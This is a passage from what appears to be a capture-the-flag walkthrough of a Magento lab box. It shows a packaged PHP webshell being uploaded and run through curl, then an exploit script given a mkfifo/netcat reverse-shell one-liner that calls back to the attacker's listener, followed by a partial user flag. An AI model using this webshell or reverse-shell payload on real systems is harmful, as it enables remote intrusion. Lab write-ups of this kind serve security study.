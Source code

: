 

Now I'll use `tar` to package it up:



    root@kali# tar -czvf package.tgz errors/ package.xml 
    errors/
    errors/cmd.php
    package.xml
    root@kali# ls
    errors  package.tgz  package.xml



And upload the `tgz` file, and I have RCE through a webshell:



    root@kali# curl http://10.10.10.140/errors/cmd.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

With either RCE, I can upgrade to a legit shell:



    root@kali# python magento_rce.py 'http://10.10.10.140/index.php/admin' "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"





    root@kali# nc -lnvp 9001
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::9001
    Ncat: Listening on 0.0.0.0:9001
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:41828.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



From there I can grab `user.txt`:



    $ cat user.txt 
    a4488772...



## Privesc to root

### Shell Upgrade

Now that I have a shell, I'll upgrade it to a full tty which will allow
me to run commands like `su` and `vi`, as well as tab completion and
arrow keys. I don't show this on every writeup, but I certainly do it
every time I get a shell on Linux.
